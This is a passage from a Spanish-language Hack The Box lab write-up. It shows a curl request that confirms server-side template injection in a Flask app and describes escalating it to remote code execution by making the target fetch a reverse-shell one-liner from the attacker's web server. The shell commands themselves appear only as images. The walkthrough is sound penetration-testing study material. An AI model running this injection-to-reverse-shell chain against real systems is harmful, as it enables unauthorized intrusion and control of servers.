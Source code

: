 En el contenido del archivo `app.py` vemos en la cabecera `flask` por lo que enseguida se nos viene a la cabeza la posibiliad de un SSTI. Comprobamos que sea vulnerable

```bash
❯ curl -s -X POST "http://10.10.11.131" -H "Content-type: application/json" -d '{"siteurl": "{ { 7*7 } }"}'

    <html>
    <head>
    <title>49 - Coming Soon</title>
    </head>
    <body style="background-image: url('/static/steampunk-3006650_1280.webp');background-size: 100%;background-repeat: no-repeat;"> 
    </body>
    </html>
```

Como sabemos que tenemos capacidad de SSTI vamos a tratar de derivarlo a RCE. Buscamos en `PayloadAllThe Things` y localizamos un payload el cual nos puede ejecutar un ping

<img src="/assets/HTB/Flustered/rce.png">

Repetimos payload pero esta vez haremos un `curl` a nuestra dirección en donde tendremos un servidor http por el puerto 80 donde serviremos un archivo `index.html` el cual contiene un oneliner para entablar una reverse shell. Nos ponemos en escucha en el puerto 443 y ejecutamos

<img src="/assets/HTB/Flustered/revshell.png">
